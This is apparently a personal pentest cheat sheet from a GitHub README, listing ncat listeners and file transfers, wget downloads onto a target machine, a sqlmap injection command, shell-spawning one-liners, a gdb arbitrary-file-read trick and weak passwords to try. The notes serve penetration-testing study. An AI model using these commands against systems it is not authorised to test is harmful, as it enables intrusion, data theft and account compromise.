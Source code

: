 # HackNotes 【第一】🐱‍💻 my personal pentest notes

## Introduction to Cyber Security

Cybersecurity is the body of technologies, processes and practices designed to protect networks, computers, programs and data from attack, damage or unauthorized access

## Basics

### nmap-ncat
##### Listen to Inbound Connections
`ncat -l [PORT]`
##### Connect to Remote System
`ncat [IP] [PORT]`
##### Copy Files Using ncat
Receiver: `ncat -l [PORT] > file.ext`
Sender: `ncat [IP] [PORT] --send-only < file.ext`

### SCP (Secure Copy)
##### Basic Syntax
`scp [SOURCE_FILE_PATH] [DESTINATION_FILE_PATH]`
##### Sending File From Remote Host to Local Host
`scp [user]@[IP]:/[PATH]/[PATH]/file.ext outputfile.ext`

### wget
##### Prepate the HTTP Server
`python-m http.server [PORT]`
##### On the Target Machine
`wget [IP/URL]:[PORT] -O filename.ext`

###SQL injection
#####sqlmap
`sqlmap --batch -u "[URL]" --data "[DATA]" --cookie "[]" -p [PARAM] --level=5 --dbms=[DB] --technique=T --dbs`

### Spawning 🐚
##### python
`python -c 'import pty; pty.spawn("/bin/sh")'`
##### echo
`echo 'os.system('/bin/bash')'`
##### bash
`/bin/bash -i`
##### sh
`/bin/sh -i`

### Useful Trickeries
##### gdb file read 
`gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit`

### Bad Passwords worth to try
- qazwsxedc
- p4ssw0rd

### Searching for Subdomains
##### theHarvester
`theHarvester --domain [DOMAIN] --limit 1000 --source all`

### Fix Kali Linux WSL ping problem
`sudo setcap cap_net_raw+ep /usr/bin/ping`

### Easy Pentest Steps
#### Black-Box

## Learn From Walkthroughs
- https://www.hackingarticles.in/seppuku1-vulnhub-walkthrough/ (brute forcing basic authentication)
